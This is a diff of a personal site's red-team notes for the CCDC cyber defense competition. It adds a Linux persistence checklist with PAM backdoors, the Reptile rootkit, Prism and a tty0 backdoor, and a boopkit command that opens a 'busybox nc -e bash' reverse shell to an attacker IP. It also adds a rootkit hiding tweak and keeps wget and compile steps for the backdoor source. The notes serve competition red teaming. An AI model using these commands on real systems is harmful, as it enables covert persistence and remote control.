

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 1816 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -77,15 +77,23 @@
     - Then update GP with `gpupdate /force`
 
 **Linux:**
+- Our persistence script
+  - Linux < 4.x
+    - Pam backdoor (out is /opt/bds/pam_out)
+    - Reptile rootkit with bds prefix
+    - Prism backdoor
+    - tty0 backdoor
+  - Linux 5.x/6.x
+    - Pam backdoor
+    - BDS with bds prefix (comes with pingable backdoor)
 - [PANIX](https://github.com/Aegrah/PANIX)
   - One-stop shop for lots of persistence methods, this thing is a great reference
 - Todo:
   - Touch up script
-    - Clean up boopkit
-      - `/root/.boopkit/` and install dir `/boopkit/`
     - Make sure all dates are changed as necessary
     - Fix script not self-deleting
-  - Test on arch? Def test on centos/fedora
+    - Fix boopkit invocation
+    - Test on arch? Def test on centos/fedora
 - [Boopkit](https://github.com/krisnova/boopkit)
   - Sneaky amazing backdoor that functions via back checksum TCP packets
   - `wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.4.1.tar.gz`
@@ -93,6 +101,7 @@
   - Then, run on victim with `boopkit -i {network_interface} -q`
     - We need to find a way to get the default network interface
   - Then, after making on Kali, can run `boopkit-boop -rhost {target} -rport 3535 -c '{command}' -lhost {kali_IP} -lport {kali_port}`
+    - E.g. `sudo boopkit-boop -lhost 192.168.204.130 -lport 4444 -rhost 192.168.204.139 -rport 3535 -c 'busybox nc 192.168.204.130 4444 -e bash'`
   - Listens on TCP 3545
 - [Prism](https://github.com/andreafabrizi/prism)
   - `gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c` or if that fails just download and run `prism`
@@ -119,7 +128,7 @@
     - `make menuconfig`, `make`, and `make install`
   - Bugs:
     - Reptile will hide more stuff than necessary in affected directories
-      - Until we fix this, we can rename `/reptile` to `/reptiled`
+      - Fixed by changing kernel main.c to use `if (strstr(name->name, HIDE) && hidden) {return NULL;}` instead of existing logic
     - Couldn't get kali-side build working, so we can use prism for the shell
   - Usage:
     - `/reptile/reptile_cmd {show/hide}` to show/hide all hidden files
```
Also changed, not shown: 1 other file.
